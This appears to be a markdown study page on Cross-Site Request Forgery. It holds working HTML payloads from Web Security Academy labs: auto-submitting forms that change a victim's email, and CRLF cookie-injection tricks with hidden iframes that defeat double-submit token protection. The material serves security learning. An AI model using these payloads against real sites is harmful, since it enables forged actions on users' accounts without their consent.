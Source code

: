 # Cross-Site Request Forgery

Cross-Site Request Forgery (CSRF) occurs when a web application allows an attacker to manipulate a victim's browser to perform actions on the victim's behalf without their consent.

During testing, you may wish to prove a CSRF vulnerability exists before further attacking. One way to do this is through the [CSRF PoC Generator](https://security.love/CSRF-PoC-Genorator/), where you can generate proof-of-concept code to test for CSRF vulnerabilities.

## Understanding CSRF

CSRF attacks are possible if the website enables attackers to set cookies in a victim's browser, leading to unauthorized actions being performed.

### Key Terminology

- WSA: Web Security Academy
- CSRF: Cross-Site Request Forgery

### Practice Lab

For practical experience and further insights into CSRF vulnerabilities, you can access the [Practice Lab](https://portswigger.net/web-security/csrf).

## Basic CSRF HTML from WSA Labs

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

### WSA Lab Exploits

Double submit CSRF vuln -- where token is duplicated in cookie and the search function has no CSRF protection:

```html
<img src="https://ac601faf1e15b2b6c001282f00970098.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit();"/>
```

#### Lab 5
```html
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://ac151f291fb50bc28036e5bb00f6000b.web-security-academy.net/my-account/change-email" method="post" id="csrf-form" target="csrf-iframe">
            <input type="hidden" name="email" value="test5@test.ca">
            <input type="hidden" name="csrf" value="SXsROOTp3jzq6M5UzIL2KkJIqGpffIQb">
        </form>

        <img style="display:none;" src="https://ac151f291fb50bc28036e5bb00f6000b.web-security-academy.net/?search=hat%0d%0aSet-Cookie:%20csrfKey=ho7GGxMe4EZSrQ8xZ0sBDq2yW0ey9bKH" onerror="document.forms[0].submit()">
    </body>
</html>
```

#### Lab 6
```html
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://ac601faf1e15b2b6c001282f00970098.web-security-academy.net/my-account/change-email" method="post" target="csrf-iframe">
            <input type="hidden" name="email" value="testboyifyoudonot@test.ca">
            <input type="hidden" name="csrf" value="hacked">
        </form>

        <img style="display:none;" src="https://ac601faf1e15b2b6c001282f00970098.web-security-academy.net/?search=hat%0d%0aSet-Cookie:%20csrf=hacked" onerror="document.forms[0].submit()">
    </body>
</html>
```